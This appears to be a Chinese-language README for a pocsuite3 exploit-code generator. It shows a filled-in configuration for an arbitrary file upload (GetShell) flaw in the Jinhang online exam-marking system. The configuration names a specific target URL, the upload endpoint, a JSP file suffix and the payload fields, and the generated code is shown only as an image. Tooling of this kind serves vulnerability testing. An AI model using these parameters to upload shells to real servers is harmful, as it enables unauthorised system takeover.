 # exp_code_generator
pocsuite3-exp-生成器

CLASSNAME = 'jinhang_LDY_2022_00137525'
VUL_ID = 'LDY-2022-00137525'
VUL_DATE = '2022-07-04'
CREATEDATE = '2021-9-30'
UPDATEDATE = '2023-01-30'
APP_NAME = 'jinhang'
VUL_NAME = '任意文件上传(GetShell)' #漏洞名称
VUL_NUM  = 'LDY-2022-00137525' #漏洞编号
CVE_NUM = '' #CVE编号
CNVD_NUM = '' #CNVD编号
VUL_TYPE = 'UPLOAD_FILES' # 必填，漏洞类型，参考 pocsuite3 VUL_TYPE的取值范围
POC_CATEGORY = 'EXPLOITS.WEBAPP' # 必填，漏洞分类，参考 pocsuite3 POC_CATEGORY的取值范围
SEVERITY = 'Critical' # 必填，严重等级，取值范围 Critical , High , Medium, Low
REQAUTH = 'False' # 必填，boolen值，该漏洞验证或利用是否需要先认证
FINGERPRINT_NAMES = 'jinhang' # 必填，当命中哪些指纹后，可使用该poc。列表中是指纹的名称
APP_MAIN_PORT = '80' # 必填，该应用的默认配置端口，用于快速扫描模式，若无法确认可以写80
APPVERSION = '<=2018' # 必填，漏洞影响的版本号
APP_POWER_LINK = 'http://www.hsjinhang.com/' # 非必填，应用厂商链接
DESC = '金航网上阅卷系统可以提供以学生、班级、学校、年级、教师、科目、知识点等为测量依据的各种成绩分析报表，并能提供每个学生历次考试结果的综合分析。金航网上阅卷系统存在文件上传漏洞，攻击者可利用该漏洞获取系统权限'
SUGGEST = '厂商尚未提供漏洞修补方案，请关注厂商主页及时更新：http://www.hsjinhang.com/'
HASEXP = 'True' # 必填，boolen值，是否包含exp
TARGETS = 'http://yj.ybwsxx.com.cn:8011' # 必填，该Poc适用的目标，string类型
SURICATA_RULES = 'fileUpload' # 必填，suricata格式的检测规则,这里只需要填写匹配流量包关键词即可
COMMAND = '#'
FILE_PATH = '' #如果不使用file_path=传shell地址，可以使用"#"进行传参数
REFERENCES = '' # 非必填，漏洞相关参考链接
URI = '/fileUpload' #payload请求uri
PAYLOAD_DATA = {'upload': (filename,param,"image/png")} #传入的data数据
UPLOAD_DIRECTORY = '/upload/'
FILE_SUFFIX = 'jsp'
TIMEOUT = 3
METHOD = 'post' # request 请求方式 get、post
HEADERS = "None"
ATTACK_PAYLOAD_DATA = '11'
ATTACK_URI = "" #利用payload请求uri


#### 生成之后的代码

![img.png](img.png)
